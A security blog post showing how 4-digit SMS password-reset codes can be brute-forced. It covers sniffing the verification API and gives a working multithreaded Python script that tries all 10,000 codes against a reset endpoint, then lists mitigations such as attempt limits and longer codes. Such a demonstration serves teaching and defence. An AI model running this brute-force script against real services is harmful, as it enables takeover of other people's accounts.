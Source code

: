 ```yaml
---
author: ZhgChgLi
categories:
- ZRealm Development
date: 2021-03-14T15:57:38.256+0000
description: Discover how weak SMS verification codes expose accounts to brute force
  attacks. Learn Python-based methods to identify vulnerabilities and strengthen your
  authentication process for enhanced security outcomes.
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
last_modified_at: 2024-04-13T16:30:08.749+0000
render_with_liquid: false
tags:
- iOS App Development
- Hacker
- Web Security
- Password Security
- Security Token
title: SMS Verification Code Security｜Prevent Brute Force Attacks with Python Demonstrations
---
```


### Security Issues with SMS Verification Code Strength for Password Recovery

Using Python to Demonstrate the Severity of Brute Force Attacks

![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}

### Introduction

This article contains little cybersecurity technical content; it is simply a sudden idea that came up while using a certain platform's website recently. I decided to casually test its security and ended up discovering an issue.

When using the password recovery feature on websites or apps, there are usually two options. One is to enter your username or email, and then a reset password page link containing a token is sent to your inbox. Clicking the link opens the page where you can reset your password. This part generally has no issues unless, as mentioned in the [previous article](../142244e5f07a/), there are design flaws that cause problems.

Another way to recover your password is by entering the linked phone number (mostly used in APP services). A verification code will be sent via SMS to the phone, and entering the code completes the password reset. For convenience, most services use numeric codes as verification codes. Additionally, since iOS ≥ 11 added the [Password AutoFill](../948ed34efa09/) feature, the keyboard will automatically detect and prompt the verification code when the phone receives it.

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

Check the [official documentation](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"}, Apple does not provide a format rule for automatically filling verification codes; however, almost all services that support autofill use pure numbers. It is inferred that only numbers are allowed, and complex combinations of numbers and letters are not supported.

### Question

Because numeric passwords can be brute-forced, especially 4-digit codes; the combinations range only from 0000 to 9999, totaling 10,000 combinations; using multiple threads and machines can split the workload for brute-force cracking.

Assuming each verification request takes 0.1 seconds to respond, 10,000 combinations = 10,000 requests

```
Time required to crack: ((10,000 * 0.1) / number of threads) seconds
```

Even without opening a thread, it only takes about 16 minutes to try the correct SMS verification code.

> *Besides insufficient password length and complexity, there is also the issue of no attempt limit and overly long validity period for verification codes.*

### Combination

In summary, this security issue is common on the app side. Web services usually add CAPTCHA verification after multiple failed attempts or require additional security questions when requesting password resets, increasing the difficulty of sending verification requests. Additionally, if web services do not separate front-end and back-end, each verification request requires loading the entire webpage, lengthening the response time.

On the app side, password reset processes are often simplified for user convenience, and some apps even allow login through phone number verification; if there is no protection on the API side, this can lead to security vulnerabilities.

### Practice

> ⚠️Warning⚠️ This article is for demonstrating the severity of this security issue only. Do not use it for malicious purposes.

#### Sniffing Authentication Request API

Everything starts with sniffing. For this part, you can refer to the previous articles "[APP uses HTTPS transmission, but data is still stolen.](../46410aaada00/)" and "[Using Python + Google Cloud Platform + Line Bot to automate routine tasks](../70a1409b149a/)". The first article explains the principle, and it is recommended to use [Proxyman](https://proxyman.io/){:target="_blank"} from the second article for sniffing.

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

For websites with separated front-end and back-end, you can also use Chrome -> Inspect -> Network -> to see what requests are sent after submitting the verification code.

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**Assuming the received verification code request is:**

```
POST https://zhgchg.li/findPWD
```

**Response:**

```
{
   "status":false
   "msg":"Verification error"
}
```

#### Writing a Brute Force Python Script

crack.py:

```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

After running the script, we get:

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
Verification code equals: 1743
```

Enter `1743` to reset the password, replace the original password, or log in directly.

> Bigo!

### Solution

- Password reset with additional information verification (e.g., birthdate, security questions)

- Increase the verification code length (e.g., Apple’s 6-digit code) and increase the verification code complexity (if it does not affect the AutoFill function)

- Invalidate the verification code after more than 3 failed attempts, requiring the user to request a new code.

- Verification Code Expiration Time Shortened

- Lock device after too many failed verification attempts, add CAPTCHA verification

- APP should implement more SSL Pinning and transmission encryption/decryption (to prevent sniffing)

### Further Reading

- [Revealing a Clever Website Vulnerability Discovered a Few Years Ago](../142244e5f07a/)

- [How to Create an Engaging Engineering CTF Competition](../729d7b6817a4/)

- [The app uses HTTPS for transmission, but data was still stolen.](../46410aaada00/)

- [Automate Routine Tasks with Python + Google Cloud Platform + Line Bot](../70a1409b149a/)

If you have any questions or feedback, feel free to [contact me](https://www.zhgchg.li/contact){:target="_blank"}.

*[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}.*